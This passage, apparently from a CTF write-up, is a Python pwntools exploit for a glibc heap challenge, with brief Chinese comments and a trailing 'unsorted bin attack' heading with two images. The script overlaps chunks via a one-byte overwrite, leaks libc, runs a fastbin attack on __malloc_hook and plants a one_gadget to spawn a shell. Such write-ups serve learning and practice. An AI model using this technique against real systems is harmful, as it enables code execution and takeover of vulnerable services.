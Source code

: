 ```python
    p.sendline(str(i))
    p.recvuntil('data')
    p.send(s)
# launch_gdb()


new(0x28,'zzz')             #0
new(0xf0,'aaa')             #1 0x100--->0x170
new(0x60,'/bin/sh\x00')     #2 0x70
new(0x60,'/bin/sh\x00')     #3
edit(0,p64(0)*5+p8(0x71))
delete(1)

new(0xf0,'a')             #1
show(1)
leak = p.recv(6).ljust(8,'\x00')
leak = u64(leak)
log.info('leak ' + hex(leak))
libc_base = leak - 3951713
malloc_hook = 3951376 + libc_base
one_addr = 0xf0364 + libc_base
realloc_addr = 542480 + libc_base

new(0x60,'/bin/sh\x00') # 4与2重合
delete(4)
delete(3)
delete(2)

new(0x60,p64(malloc_hook - 0x23))#xiu gai cheng maoxx
new(0x60,p64(malloc_hook - 0x23))
new(0x60,p64(malloc_hook - 0x23))
#zhan qian yi de fang fa
# # #realloc_hook=__malloc_hook-0x8
# # #malloc_hook->realloc_hook
# # #realloc_hhok->one_gadget
# # new(0x60,p8(0) * 0xb + p64(sys_addr) + p64(realloc_addr))
# # new(0x60,p8(0) * 0xb + p64(sys_addr) + p64(realloc_addr))
new(0x60,p8(0) * 0x13 + p64(one_addr))

delete(2)
delete(4)

p.interactive()
```

# unsorted bin attack

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605097126192-8907af70-2093-4a25-9fb6-fb50b0bb0fcd.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605097159765-56f56863-db21-440e-8eba-1ed8559553d5.png)
